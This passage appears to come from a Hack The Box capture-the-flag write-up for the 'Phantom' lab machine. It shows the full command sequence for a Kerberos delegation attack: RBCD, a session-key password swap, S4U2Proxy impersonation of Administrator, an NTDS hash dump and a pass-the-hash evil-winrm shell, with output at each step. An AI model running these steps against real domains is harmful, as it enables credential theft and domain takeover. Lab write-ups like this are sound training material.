The first step is to use the wsilva's `AddAllowedToAct` permissions to add wsilva as an account that can act on behalf of other users using `impacket-rbcd`:

```
┌──(kali㉿kali)-\[~/labs_htb/Phantom\]  
└─$ impacket-rbcd -delegate-to 'DC$' -delegate-from wsilva -action write phantom/wsilva:'Password123!' -dc-ip 10.129.234.63  
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies   
  
\[\*\] Accounts allowed to act on behalf of other identity:  
\[\*\]     wsilva       (S-1-5-21-4029599044-1972224926-2225194048-1114)  
\[\*\] wsilva can already impersonate users on DC$ via S4U2Proxy  
\[\*\] Not modifying the delegation rights.  
\[\*\] Accounts allowed to act on behalf of other identity:  
\[\*\]     wsilva       (S-1-5-21-4029599044-1972224926-2225194048-1114)
```

The second step is to use `impacket-getTGT` to retrieve the Ticket Granting Ticket or TGT of the wsilva user:

```
┌──(kali㉿kali)-\[~/labs_htb/Phantom\]  
└─$ impacket-getTGT -hashes :$(pypykatz crypto nt 'Password123!') 'phantom.vl'/'wsilva'                               
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies   
  
\[\*\] Saving ticket in wsilva.ccache
```

This saves the ticket to a file named `wsilva.ccache`.

Now we need to use `impacket-describeTicket` to retrieve the `Session Key` as for this attack to work we need an NTLM hash that matches the session key:

```
┌──(kali㉿kali)-\[~/labs_htb/Phantom\]  
└─$ impacket-describeTicket wsilva.ccache  
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies   
  
\[\*\] Number of credentials in cache: 1  
\[\*\] Parsing credential\[0\]:  
\[\*\] Ticket Session Key            : a5f210341ff0e2f5c60e38a45cf24130  
\[\*\] User Name                     : wsilva  
\[\*\] User Realm                    : PHANTOM.VL  
\[\*\] Service Name                  : krbtgt/PHANTOM.VL  
\[\*\] Service Realm                 : PHANTOM.VL  
\[\*\] Start Time                    : 13/11/2026 18:45:38 PM  
\[\*\] End Time                      : 14/11/2026 04:45:38 AM  
\[\*\] RenewTill                     : 14/11/2026 18:46:09 PM  
\[\*\] Flags                         : (0x50e10000) forwardable, proxiable, renewable, initial, pre_authent, enc_pa_rep  
\[\*\] KeyType                       : rc4_hmac  
\[\*\] Base64(key)                   : pfIQNB/w4vXGDjikXPJBMA==  
\[\*\] Decoding unencrypted data in credential\[0\]\['ticket'\]:  
\[\*\]   Service Name                : krbtgt/PHANTOM.VL  
\[\*\]   Service Realm               : PHANTOM.VL  
\[\*\]   Encryption type             : aes256_cts_hmac_sha1_96 (etype 18)  
\[-\] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied
```

Now we can change the `wsilva`'s user password to the session key NTLM hash using `impacket-changepasswd`:

```
┌──(kali㉿kali)-\[~/labs_htb/Phantom\]  
└─$ impacket-changepasswd -newhashes :a5f210341ff0e2f5c60e38a45cf24130 phantom/wsilva:'Password123!'@dc.phantom.vl  
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies   
  
\[\*\] Changing the password of phantom\\wsilva  
\[\*\] Connecting to DCE/RPC as phantom\\wsilva  
\[\*\] Password was changed successfully.  
\[!\] User might need to change their password at next logon because we set hashes (unless password never expires is set).
```

We can now retrieve a service ticket for the administrator user using `impacket-getST`:

```
┌──(kali㉿kali)-\[~/labs_htb/Phantom\]  
└─$ KRB5CCNAME=wsilva.ccache impacket-getST -u2u -impersonate Administrator -spn cifs/DC.phantom.vl phantom.vl/wsilva -k -no-pass  
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies   
  
\[\*\] Impersonating Administrator  
\[\*\] Requesting S4U2self+U2U  
\[\*\] Requesting S4U2Proxy  
\[\*\] Saving ticket in Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache
```

And then finally we can dump the Administrators NT hash using NetExec:

```
┌──(kali㉿kali)-\[~/labs_htb/Phantom\]  
└─$ KRB5CCNAME=Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache nxc smb 10.129.234.63 --use-kcache --ntds --user Administrator  
SMB         10.129.234.63   445    DC               \[\*\] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                              
SMB         10.129.234.63   445    DC               \[+\] phantom.vl\\Administrator from ccache (Admin!)  
SMB         10.129.234.63   445    DC               \[+\] Dumping the NTDS, this could take a while so go grab a redbull...  
SMB         10.129.234.63   445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:\<REDACTED\>:::  
SMB         10.129.234.63   445    DC               \[+\] Dumped 1 NTDS hashes to /home/kali/.nxc/logs/ntds/DC_10.129.234.63_2026-11-13_184923.ntds of which 1 were added to the database
```

With the Administrator hash in hand we can access the target machine using `evil-winrm`:

```
┌──(kali㉿kali)-\[~/labs_htb/Phantom\]  
└─$ evil-winrm -i 10.129.234.63 -u administrator -H \<REDACTED\>  
                                          
Evil-WinRM shell v4.1  
                                          
Info: Establishing connection to remote endpoint  
                                          
Info: Connection successful  
\*Evil-WinRM\* PS C:\\Users\\Administrator\\Documents\> whoami  
phantom\\administrator  
\*Evil-WinRM\* PS C:\\Users\\Administrator\\Documents\> hostname  
DC
```

The root.txt hash can be found on the Administrators Desktop thus solving the challenge!


